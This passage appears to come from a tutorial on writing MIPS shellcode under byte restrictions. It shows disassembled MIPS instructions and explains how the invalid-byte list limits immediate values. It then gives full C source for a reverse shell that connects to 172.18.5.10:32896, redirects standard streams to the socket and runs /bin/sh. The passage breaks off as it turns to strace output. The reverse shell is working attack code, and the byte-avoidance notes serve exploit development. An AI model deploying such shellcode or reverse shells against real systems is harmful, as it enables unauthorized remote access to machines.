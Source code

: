 And once compiled:

```
00400090 <_ftext>
	400090:		25023050	addiu v0,t0,12368
	400094:		24483050	addiu t0,v0,12368
	400098:		3a540177	xori s4,s2,0x177
	40009c:		3a542177	xori s4,s2,0x2177
```

Notice the changes when switching the register in the first example? 0x2502 versus 0x2448. The registers in `addiu $v0, $t0, 0x3050` resulted in a 0x02 being included which is the difference between the bytes being allowed versus not being allowed. Simply switching the order makes the instruction valid. In the second example attempting to xor a register with a small value introduces an invalid byte of 0x01. The list of invalid bytes mean the minimum value we can use for any immediate value is 0x2121. Even though we have a list of "supported" operations there is still trial and error involved in writing the shellcode. 

## The Shellcode
Now that we have a general idea of what instructions we can use in the shellcode, what do we want it to actually do? Well we want it to give us a shell obviously! My preferred solution for that is through a reverse shell. The example below is a simple reverse shell with no error checking that will connect back to 172.18.5.10:32896. 

```
#include <sys/socket.h>
#include <netinet/in.h>
#include <stdlib.h>

void main()
{
    char *host = "172.18.5.10";
    int port = 32896;
    struct sockaddr_in host_addr;

    host_addr.sin_family = AF_INET;
    host_addr.sin_port = htons(port);
    host_addr.sin_addr.s_addr = inet_addr(host);
    
    int host_sock = socket(AF_INET, SOCK_STREAM, 0);
    connect(host_sock, (struct sockaddr *)&host_addr, sizeof(host_addr));
        
    dup2(host_sock, 0);
    dup2(host_sock, 1);
    dup2(host_sock, 2);
    
    execl("/bin/sh", "/bin/sh", NULL);
}
```

The first step in converting the C code to assembly is compiling it and running with `strace` to see what functions are actually executed. For example, `execl` translates to `execve` when executed. The relevant `strace` output is shown below:
